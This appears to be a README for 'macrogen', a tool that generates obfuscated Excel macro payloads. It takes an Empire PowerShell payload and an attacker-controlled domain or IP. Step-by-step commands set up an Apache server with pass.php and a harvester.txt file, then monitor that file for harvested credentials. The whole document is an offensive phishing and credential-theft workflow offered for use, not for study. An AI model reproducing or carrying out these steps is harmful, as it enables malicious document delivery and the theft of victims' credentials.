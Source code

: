 # macrogen
<b>Microsoft Excel macro payload obfuscation generator</b>
</br>Usage: python macrogen.py [path to base64 encoded powershell payload] [attacker controlled domain name or external IP]
</br>
</br><b>Create the payload in Empire PowerShell</b>
</br>Remove "powershell.exe -NoP -NonI -W Hidden -Enc" from the payload created by Empire and save to a file.
</br>
</br><b>Copy pass.php and create harvester.txt in /var/www/html</b>
</br>cp pass.php /var/www/html/
</br>touch /var/www/html/harvester.txt
</br>
</br><b>Change ownership and permissions on harvester.txt and pass.php</b>
</br>chmod 755 /var/www/html/harvester.txt 
</br>chmod 755 /var/www/html/pass.php
</br>chown www-data:www-data /var/www/html/harvester.txt
</br>chown www-data:www-data /var/www/html/pass.php
</br>
</br><b>Start Apache on TCP port 80</b>
</br>service apache2 start
</br>
</br><b>Monitor the harvester.txt iile for creds</b>
</br>tail -f /var/www/html/harvester.txt
</br>
